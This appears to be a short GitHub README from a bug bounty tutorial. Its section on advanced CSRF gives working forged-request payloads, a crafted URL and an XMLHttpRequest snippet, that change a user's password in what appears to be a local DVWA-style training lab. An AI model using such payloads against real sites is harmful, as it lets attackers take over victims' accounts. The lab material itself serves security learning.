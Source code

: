 # bug-bounty-tutorial
bug bounty tutorial

## 8.CSRF-Advanced

### low
```
http://127.0.0.1:42001/vulnerabilities/csrf/?password_new=123456&password_conf=123456&Change=Change#
```

### medium
```
const HttpRequest = new XMLHttpRequest();
const url ="http://127.0.0.1:42001/vulnerabilities/csrf/?password_new=password&password_conf=password&Change=Change#";
HttpRequest.open("GET", url);
HttpRequest.send();
```
